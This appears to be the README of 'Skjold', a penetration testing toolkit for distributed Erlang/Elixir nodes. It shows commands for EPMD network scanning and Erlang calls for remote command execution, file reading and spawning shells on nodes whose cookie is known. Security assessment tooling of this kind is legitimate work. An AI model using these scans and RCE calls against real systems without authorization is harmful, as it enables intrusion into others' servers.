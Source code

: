 # Skjold

Erlang/Elixir node discovery and penetration testing toolkit.

## Features

- **Discovery**: EPMD scanning and node enumeration
- **Fingerprinting**: System info and version detection
- **Vulnerability Scanning**: Security misconfiguration detection
- **Exploitation**: RCE and post-exploitation capabilities

## Build

```bash
rebar3 escriptize
```

## Usage

### Prerequisites

Skjold targets **distributed Erlang/Elixir systems**. You need:
- Target nodes running with EPMD (Erlang Port Mapper Daemon)
- Network access to port 4369 (EPMD) and distribution ports
- Knowledge of the Erlang cookie (for enumeration/exploitation)

### Local Testing

```bash
# Terminal 1: Start a test node
erl -sname myapp -setcookie secret123

# Terminal 2: Scan for it
./_build/default/bin/skjold -r 127.0.0.1-1
```

### Remote Scanning

```bash
# Scan network range
./_build/default/bin/skjold -r 192.168.1.1-254

# Scan specific subnet
./_build/default/bin/skjold -r 10.0.0.1-100 -t 2000 -c 100

# Corporate network scan
./_build/default/bin/skjold -r 172.16.0.1-254
```

### Real-World Scenarios

**Phoenix/Elixir apps:**
```bash
# Development environments often expose EPMD
skjold -r 192.168.1.1-254

# Production clusters
skjold -r 10.20.30.1-254 -t 5000
```

**Distributed Erlang clusters:**
```bash
# RabbitMQ, CouchDB, ejabberd, etc.
skjold -r 172.16.0.1-100
```

## Programmatic Usage

Start an Erlang shell with Skjold:

```bash
rebar3 shell
```

### Discovery

```erlang
%% Scan IP range
{ok, Hosts} = skjold_discovery:discover({"192.168.1.", 1, 254}, #{}).

%% With options
{ok, Hosts} = skjold_discovery:discover({"192.168.1.", 1, 10}, #{
    timeout => 2000,
    concurrency => 100,
    verbose => true
}).
```

### Enumeration

```erlang
%% Enumerate single node
{ok, Info} = skjold_enum:enumerate_node("192.168.1.5", "myapp", secret).

%% View formatted output
io:format("~s", [skjold_enum:format_enumeration(Info)]).
```

### Vulnerability Scanning

```erlang
%% Scan for vulnerabilities
{ok, Findings} = skjold_scan:scan_node("192.168.1.5", "myapp", secret).

%% Format findings
io:format("~s", [skjold_scan:format_findings(Findings)]).
```

### Exploitation

```erlang
%% Execute command
{ok, Result} = skjold_exploit:execute_command("192.168.1.5", "myapp", secret, "os:cmd(\"whoami\")").

%% Read file
{ok, Content} = skjold_exploit:read_file("192.168.1.5", "myapp", secret, "/etc/hosts").

%% List directory
{ok, Files} = skjold_exploit:list_directory("192.168.1.5", "myapp", secret, "/tmp").

%% Spawn interactive shell
{ok, Pid} = skjold_exploit:spawn_shell("192.168.1.5", "myapp", secret).
```

## Testing

```bash
rebar3 eunit
```

## Warning

**For authorized security assessments only.** Unauthorized access is illegal.

## License

Apache-2.0
